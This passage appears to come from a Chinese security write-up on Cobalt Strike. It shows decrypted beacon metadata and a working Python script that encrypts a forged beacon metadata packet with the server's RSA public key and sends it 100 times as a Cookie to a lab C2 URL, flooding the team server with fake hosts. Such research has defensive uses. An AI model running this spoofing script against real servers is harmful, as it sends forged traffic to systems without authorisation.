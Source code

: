 https://the-x.cn/cryptography/Rsa.aspx

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114728.png)

当然重点关注一下部分

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114729.png)

接下来我们结合着Cobalt Strike客户端来看

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114730.png)

可以看到解密后的部分数据其实就是回显在Cobalt Strike客户端的数据

## 伪造请求，产生虚假数据

在这里就是利用前面找到的公钥将数据包加密，发送即可

    
    
    #!/usr/bin/env python  
    # coding=utf-8  
    import rsa  
    import random  
    import urllib.request  
    import base64  
      
      
    def run(url,pubkey):  
        pack = b'\x00\x00\xBE\xEF\x00\x00\x00\x51\xC6\x21\x5B\xCD\xAE\x4A\x74\x55'  
        pack += b'\x1E\xE3\x60\x94\x90\xBA\xE2\x17\xA8\x03\xA8\x03'  
        pack += random.randint(0 , 65535) .to_bytes(4, 'big')+random.randint(0 , 65535) .to_bytes(4, 'big')  
        pack += b'\x00\x00\x45\x80\x00\x00\x04\x36\x2E\x32\x09\x31\x39\x32\x2E\x31'  
        pack += b'\x36\x38\x2E\x32\x34\x38\x2E\x31\x09\x44\x45\x53\x4B\x54\x4F\x50'  
        pack += b'\x2D\x55\x54\x42\x4E\x36\x50\x41\x09\x6E\x61\x69\x68\x65\x09\x62'  
        pack += b'\x65\x61\x63\x6F\x6E\x2E\x65\x78\x65'  
      
        key = '-----BEGIN PUBLIC KEY-----\n'+pubkey+'\n-----END PUBLIC KEY-----'  
        pubkey = rsa.PublicKey.load_pkcs1_openssl_pem(key)  
      
        enpack = rsa.encrypt(pack, pubkey)  
        header = {  
            'Cookie': base64.b64encode(enpack).decode('utf-8')  
        }  
        request = urllib.request.Request(url, headers=header)  
        reponse = urllib.request.urlopen(request).read()  
      
      
      
    if __name__ == "__main__":  
        for i in range(100):  
            run("http://192.168.127.130/dot.gif","MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCTUlJ7J79z/MkkV8+MsYlOvREE2hhdGNzrKPFZ10lY0K5legA+um5JxESEaC0woDgSmOGrkh1giz/aQwd6tG4mihFgpi0oIbfwu6XZbE6ghYGyu2F7+A5TifRUzvU0YLXjK78EW12XhjHx4KopMF/AtOAueGwfiI2DmXwNzrBDvwIDAQAB==")  
    